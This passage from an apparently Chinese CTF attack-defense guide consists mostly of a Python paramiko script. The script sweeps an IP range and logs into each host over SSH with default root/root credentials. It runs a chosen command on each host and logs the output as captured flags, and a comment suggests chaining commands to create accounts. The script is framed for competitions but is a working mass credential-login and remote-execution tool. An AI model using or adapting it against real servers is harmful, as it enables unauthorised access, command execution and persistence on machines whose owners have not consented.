 同时拿着初始密码扫一波flag. （ 修改比赛时的 用户名、密码、curl 地址）

```python
# coding: utf-8
# author: Qilinge
# version: python-3.7.3
#此脚本适用于全场服务器的初始用户名和密码都一样的情况，在别人修改默认密码之前快速登录别人主机拿到flag
import paramiko
#使用此脚本需安装paramiko库
def catflag(ip):
    try:
        ssh=paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh.connect(ip,username='root',password='root',timeout=1)
        #在此处填写比赛方默认的用户名和密码
        stdin,stdout,stderr=ssh.exec_command("curl www.baidu.com")
        #此处填写要执行的命令(可以用命令链接符创建用户等操作)
        flag=stdout.readlines()
        f=open('flag.txt','a')
        f.write("ip:%s,flag:%s\n" %(ip,flag))
        #flag.txt记录目标主机的flag
        f.close()
        ssh.close()
        print("打开flag.txt查看flag")
    except:
        print("用户或密码错误！")
        pass
xunhuan = int(input("IP地址第几位循环？"))
if xunhuan==3:
    ip1=input("第一位：")
    ip2=input("第二位：")
    ip4=input("第四位：")
    for ip3 in range(0,254):
        #根据需要自行调节IP范围 range(x,y)
        ip = str(ip1)+"."+str(ip2)+"."+str(ip3)+"."+str(ip4)
        print(ip)
        catflag(ip)
if xunhuan==4:
    ip1=input("第一位：")
    ip2=input("第二位：")
    ip3=input("第三位：")
    for ip4 in range(0,254):
        #根据需要自行调节IP范围 range(x,y)
        ip = str(ip1)+"."+str(ip2)+"."+str(ip3)+"."+str(ip4)
        print(ip)
        catflag(ip)
```





## 三、dump 备份
